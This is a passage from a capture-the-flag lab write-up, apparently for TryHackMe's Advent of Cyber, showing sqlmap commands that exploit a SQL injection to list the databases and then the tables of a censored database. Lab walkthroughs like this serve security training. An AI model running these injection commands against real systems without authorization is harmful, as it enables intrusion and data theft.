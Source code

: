 Copy the request and save it as **r.txt**. After that, run the following command to initiate the injection to find out the list of the possible database.

```
sqlmap -r r.txt --dbs --batch
```

![parameter](/assets/images/THM/2020-08-15-advent-of-cyber/day23/2.png)

![db](/assets/images/THM/2020-08-15-advent-of-cyber/day23/3.png)

We got one particular parameter that is vulnerable to the injection. After a short run, we are able to determine the databases. The next step is to list all the tables inside the database (name censored) with the following command.

```
sqlmap -r r.txt -D <Censored Db name> --table --batch
```

![table](/assets/images/THM/2020-08-15-advent-of-cyber/day23/4.png)
